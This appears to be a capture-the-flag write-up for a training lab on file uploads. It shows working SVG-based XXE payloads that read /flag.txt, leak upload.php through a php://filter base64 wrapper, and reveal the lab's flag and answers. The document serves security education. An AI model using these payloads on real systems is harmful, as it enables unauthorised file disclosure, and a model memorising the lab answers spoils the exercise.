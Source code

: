 ## Challenge 1

The above exercise contains an upload functionality that should be secure against arbitrary file uploads. Try to exploit it using one of the attacks shown in this section to read "/flag.txt" 

## Solution 1

The webpage has a functionality to upload the logo, which accepts `.svg` file.

So I create a `.svg` file with the following content:

```.xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///flag.txt"> ]>
<svg>&xxe;</svg>
```

I upload that and check the response which has the flag: `HTB{my_1m4635_4r3_l37h4l}`.

## Challenge 2

Try to read the source code of 'upload.php' to identify the uploads directory, and use its name as the answer. (write it exactly as found in the source, without quotes) 

## Solution 2

Now since it's a php file, I need to use filters. So I create a `.svg` file as follows:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=upload.php"> ]>
<svg>&xxe;</svg>
```

When I see the response to this, there is a base64 string, which when decoded gives the code of `upload.php`.

```php
<?php
$target_dir = "./images/";
$fileName = basename($_FILES["uploadFile"]["name"]);
$target_file = $target_dir . $fileName;
$contentType = $_FILES['uploadFile']['type'];
$MIMEtype = mime_content_type($_FILES['uploadFile']['tmp_name']);

if (!preg_match('/^.*\.svg$/', $fileName)) {
    echo "Only SVG images are allowed";
    die();
}

foreach (array($contentType, $MIMEtype) as $type) {
    if (!in_array($type, array('image/svg+xml'))) {
        echo "Only SVG images are allowed";
        die();
    }
}

if ($_FILES["uploadFile"]["size"] > 500000) {
    echo "File too large";
    die();
}

if (move_uploaded_file($_FILES["uploadFile"]["tmp_name"], $target_file)) {
    $latest = fopen($target_dir . "latest.xml", "w");
    fwrite($latest, basename($_FILES["uploadFile"]["name"]));
    fclose($latest);
    echo "File successfully uploaded";
} else {
    echo "File failed to upload";
}
```

From this we can see that the location is `./images/` and that is the answer to the lab.


